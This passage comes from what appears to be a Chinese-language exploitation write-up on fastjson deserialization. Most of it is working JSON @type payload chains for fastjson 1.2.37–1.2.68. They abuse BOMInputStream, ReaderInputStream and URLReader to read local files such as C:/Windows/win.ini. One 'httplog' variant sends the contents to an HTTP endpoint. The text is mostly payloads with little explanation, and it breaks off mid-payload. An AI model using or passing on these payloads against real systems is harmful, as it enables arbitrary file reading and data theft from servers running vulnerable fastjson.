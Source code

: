 ```json
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```json
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```json
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```json
{"su15":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-4fb8fc255d8e9d6d77a64d62135dc9a429c11a68.png)

#### 4.1.2.2 httplog回显法

修改`4.1.2.1`中最后一步为如下`payload`：

```json
{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Users/whoami/Desktop/testtest.txt"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}
```

我这里`demo`复现是成功的，但是靶场没有成功，如果有兄弟成功了可以公众号后台直接发消息，我看到立马就会回复，并将这部分在我的博客中更新。

4.2 fastjson【1.2.37&lt;=version&lt;=1.2.68】
-------------------------------------------

### 4.2.1 blackhat2021-getBom()原版（适用场景有限）

`payload42`：

```json
{
  "abc":{"@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {"@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": { "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///C:/Windows/win.ini"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },"boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [
          59
        ]
      }
```